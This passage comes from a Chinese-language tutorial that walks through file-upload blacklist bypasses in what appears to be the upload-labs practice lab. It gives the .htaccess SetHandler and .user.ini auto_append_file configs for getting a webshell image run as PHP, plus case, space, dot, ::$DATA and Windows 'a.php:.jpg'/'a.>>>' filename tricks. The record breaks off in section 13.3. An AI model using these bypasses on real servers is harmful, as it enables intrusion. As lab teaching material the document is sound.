

## 7. . htaccess 重写解析绕过上传

### 7.1 简介

上传模块，黑名单过滤了所有的能执行的后缀名,如果允许上传.htaccess。htaccess文件的作用是可以帮我们实现包括文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定 IP 地址的用户、只允许特定 IP 地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。在.htaccess里写入SetHandler application/x-httpd-php,则可以文件重写成php文件。

要 htaccess 的规则生效,则需要在apache开启rewrite 重写模块，因为apache是多数都开启这个模块，所以规则一般都生效。

### 7.2 代码分析

pass-04

上传的文件后缀名在列表内禁止上传。包括了所有的执行脚本。



### 7.3 上传攻击

上传.htaccess到网站里，.htaccess 内容是

```xml
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

再上传恶意的jpg到.htaccess相同目录里，访问图片即可获取执行脚本。





当图片上传成功之后，即使格式是jpg的，也一样会被当成php脚本执行



## 8. 大小写绕过上传

### 8.1 简介

有的上传模块后缀名采用黑名单判断，但是没有对后缀名的大小写进行严格判断，导致可以更改后缀大小写可以被绕过。

### 8.2 代码分析

pass-05

获取文件后缀名进行判断，如果后缀在这个字典里就禁止上传。



### 8.3 上传攻击

仔细阅读黑名单，查看是否有被忽略的后缀名，当前可以使用 phP 绕过。






## 9. .user.ini 绕过

### 9.1 简介

#### 9.1.1 .user.ini

自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被 CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用 .htaccess 文件有同样效果。

#### 9.1.2 .user.ini的妙用原理

.user.ini中两个中的配置就是auto_prepend_file和auto_append_file。这两个配置的意思就是：我们指定一个文件（如1.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），相当于在index.php中插入一句：require(./1.jpg)。这两个设置的区别只是在于auto_prepend_file是在文件前插入，auto_append_file在文件最后插入。

利用.user.ini的前提是服务器开启了CGI或者FastCGI，并且上传文件的存储路径下有index.php可执行文件。

#### 9.1.3 利用.user.ini的环境

有时候我们进行文件上传的时候，站点不仅在前端做了白名单处理，还在后端做了黑名单处理以及文件类型的检验且服务器没有配置"AddType application/x-httpd-php .php .phtml"，这时我们就不能通过简单的绕过前端验证修改数据包的 Content-Type 并将文件后缀改为 phtml 以此来利用文件上传漏洞。

这时我们就需要利用.user.ini进行配合，使得我们上传的图片格式的webshell也能够被解析，以此成功利用漏洞拿到shell权限。

### 9.2 代码分析

### 9.3 上传攻击

先利用第一关上传一个 test.php，内容可以随便写，比如定义一个变量之类的

制作一个 .user.ini 文件，意思是无论访问当前目录下哪个 PHP 文件都会自动去包含 ma.jpg 这个文件

```php
auto_append_file=ma.jpg
```

上传 .user.ini



上传 ma.jpg



访问 test.php 文件，发现自动包含了 ma.jpg



## 10. 空格绕过上传

### 10.1 简介

在上传模块里，采用黑名单上传，如果没有对空格进行去掉可能被绕过。

### 10.2 代码分析

pass-06

检测 submit 后 上传目录存在时，进入黑名单判断。如果文件后缀名在黑名单里。

不允许上传，但是文件后缀名，没有过滤空格，可以添加空格绕过。



### 10.3 上传攻击

抓包上传，在后缀名后添加空格





## 11. 利用 windows 系统特征绕过

### 11.1 简介

在 windows 中文件后缀名的点“.”，系统会自动忽略。所以shell.php.和shell.php的效果一样。可以在文件名后面加上.绕过。

### 11.2 源码分析

pass-06

同样是黑名单禁止上传，但是可以上传.php.这种文件后缀。



### 11.3 绕过攻击

抓包修改在后缀名后加上.即可绕过。





## 12. NTFS 交换数据流::$DATA 绕过上传

### 12.1 简介

如果后缀名没有对::$DATA 进行判断，利用 windows 系统 NTFS 特征可以绕过上传。

在window的时候如果文件名+`::$DATA`会把`::$DATA`之后的数据当成文件流处理,不会检测后缀名，且保持`::$DATA`之前的文件名，他的目的就是不检查后缀名


例如:`phpinfo.php::$DATA`Windows会自动去掉末尾的`::$DATA`变成`phpinfo.php`

### 12.2 代码分析

pass-08

同样用黑名单过滤后缀名。但是程序中没有对`::$DATA`进行过滤可以添加`::$DATA`绕过上传。



### 12.3 上传攻击

burpsuite 抓包，修改后缀名为 php::$DATA




## 13. 利用 windows 环境的叠加特征绕过

### 13.1 简介

在 windwos 中如果上传文件名 phpinfo.php:.jpg 的时候，会在目录下生产空白的文件名 phpinfo.php，再利用 php 和 windows环境的叠加属性。

以下符号在正则匹配时相等：

双引号" 等于 点号. 

大于符号> 等于 问号?

小于符号< 等于 星号*

文件名.< 或 文件名.<<< 或 文件名.>>> 或 文件名.>><空文件名

### 13.2 代码分析

pass-09

同样是黑名单匹配，把.去掉，把空格过滤了，::$data 也过滤了。



### 13.3 上传攻击

首先抓包上传 a.php:.jpg 上传会在目录里生成 a.php 空白文件，接着再次提交把a.php 改成 a.>>>

